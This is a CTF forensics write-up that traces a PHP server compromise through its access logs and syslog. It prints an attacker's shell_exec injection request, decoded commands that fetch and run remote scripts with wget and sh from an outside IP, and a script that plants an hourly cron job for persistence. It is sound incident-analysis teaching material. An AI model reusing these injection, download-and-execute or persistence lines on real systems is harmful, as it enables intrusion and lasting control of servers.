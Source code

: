 # H4x0r3d (264 pt)

I've tried to learn some PHP, but some evil guy hacked me!

Can you catch him by looking at my logs?

Download: [h4x0r3d_logs.7z](h4x0r3d_logs_c0abe4acb8.7z)

# Solution

Inspecting `access.log`, we find a suspicious request:

> 192.168.138.1 - - [29/Oct/2020:00:08:06 +0300] "GET /test-verysecretfile.php?expression=shell_exec%28%22%60echo+c2ggLWMgIiQod2dldCAtTy1odHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0FldGhlckV0ZXJuaXR5LzQ4NGZlYzZmYjBmMjdlZjZlYzgxYjU4YWVlNTZlZGQxL3Jhdy8wN2MyZjc5NjBlYTE1MmVmOTRjMjBmZDJjMDlkZjU0YmMyMWQ4NmU5L3N0YWdlLnNoKSI%3D+%7C+base64+-d%60%22%29 HTTP/1.1" 200 435 "-" "python-requests/2.23.0"

The base64 string decodes to:

```
sh -c "$(wget -O-https://gist.githubusercontent.com/AetherEternity/484fec6fb0f27ef6ec81b58aee56edd1/raw/07c2f7960ea152ef94c20fd2c09df54bc21d86e9/stage.sh)"
```

Now let's see what this piece of code does:

```
#!/bin/sh
NEW_UUID=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

echo $NEW_UUID > /etc/persist

BASE="http://188.143.222.218:4455/persist?uuid="
wget -O /etc/cron.hourly/persist "$BASE$NEW_UUID"
chmod +x /etc/cron.hourly/persist
```

Where can we find this UUID? Let's have a look at `syslog`:

> Oct 29 0:26:54 debian-min root: Started door with uid AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy

Now we visit [http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy)

```
#!/bin/sh
UUID = `cat /etc/persist`
BASE="http://188.143.222.218:4455/?uuid="
logger -s "Started door with uid $UUID"
sh -c "$(wget -O- $BASE$NEW_UUID)"
```

Follow the trace to [http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy):

```
sh -c "`echo ZWNobyBPTllHRVkzVU1aNVdXTVpUT0JQWFNNRFZPSlBXTTVEUUw1WlRJWlJUUFVGQT09PT0gfCBiYXNlMzIgLWQgPiAvZXRjL3NlY3JldC5mbGFnCg== | base64 -d`"
```

Decode the base64 string:

```
echo ONYGEY3UMZ5WWMZTOBPXSMDVOJPWM5DQL5ZTIZRTPUFA==== | base32 -d > /etc/secret.flag
```

Decode again and we get the flag: `spbctf{k33p_y0ur_ftp_s4f3}`
